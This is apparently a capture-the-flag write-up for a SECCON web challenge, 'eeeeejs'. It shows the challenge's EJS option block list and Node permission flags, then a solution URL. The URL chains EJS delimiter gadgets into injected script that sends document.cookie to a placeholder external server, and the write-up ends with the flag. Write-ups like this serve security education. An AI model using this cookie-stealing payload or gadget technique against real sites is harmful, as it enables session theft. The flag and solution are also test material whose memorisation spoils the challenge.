 # eeeeejs

## Overview

It looked like a simple EJS abusing challenge, but it was mitigated and could not be exploited.

- Mitigation 2

```js
// Mitigation 2:
app.use((req, res, next) => {
  // A protection for RCE
  // FYI: https://github.com/mde/ejs/issues/735

  const evils = [
    "outputFunctionName",
    "escapeFunction",
    "localsName",
    "destructuredLocals",
    "escape",
  ];

  const data = JSON.stringify(req.query);
  if (evils.find((evil) => data.includes(evil))) {
    res.status(400).send("hacker?");
  } else {
    next();
  }
});
```

- Mitigation 4

```js
  const proc = await util
    .promisify(execFile)(
      "node",
      [
        // Mitigation 4:
        "--experimental-permission",
        `--allow-fs-read=${__dirname}/src`,

        "render.dist.js",
        JSON.stringify(req.query),
      ],
      {
        timeout: 2000,
        cwd: `${__dirname}/src`,
      }
    )
    .catch((e) => e);
```

In `package.json`, it build a `render.js` file and generates a `render.dist.js` file.

```
  "scripts": {
    "bundle": "esbuild src/render.js --bundle --platform=node --outfile=src/render.dist.js"
  },
```

The `render.dist.js` file has many gadgets and manipulates delimiters to create output.

- gadgets #1 (replace)

```js
    exports.escapeXML = function(markup) {
      return markup == void 0 ? "" : String(markup).replace(_MATCH_HTML, encode_char);
    };
```

- gadgets #2 (return)

```js
    function stripSemi(str) {
      return str.replace(/;(\s*$)/, "$1");
    }
```



## Solution

```
http://eeeeejs.seccon.games:3000/?filename=render.dist.js&delimiter=%0a&settings[view%20options][openDelimiter]=(markup)%20{&settings[view%20options][closeDelimiter]=%20&markup=%3Chr/%3E&_MATCH_HTML=hr /&encode_char=iframe%20srcdoc="%26lt;script src=%27%2F%3ffilename%3Drender.dist.js%26delimiter%3D%250a%26settings%5Bview%2520options%5D%5BopenDelimiter%5D%3DstripSemi%28str%29%2520%7B%26settings%5Bview%2520options%5D%5BcloseDelimiter%5D%3D%2520%26str%3Dtop.location.href=`http://{server}/flag?`.concat(document.cookie);%27%26gt;%26lt;/script%26gt;"
```


`SECCON{RCE_is_po55ible_if_mitigation_4_does_not_exist}`
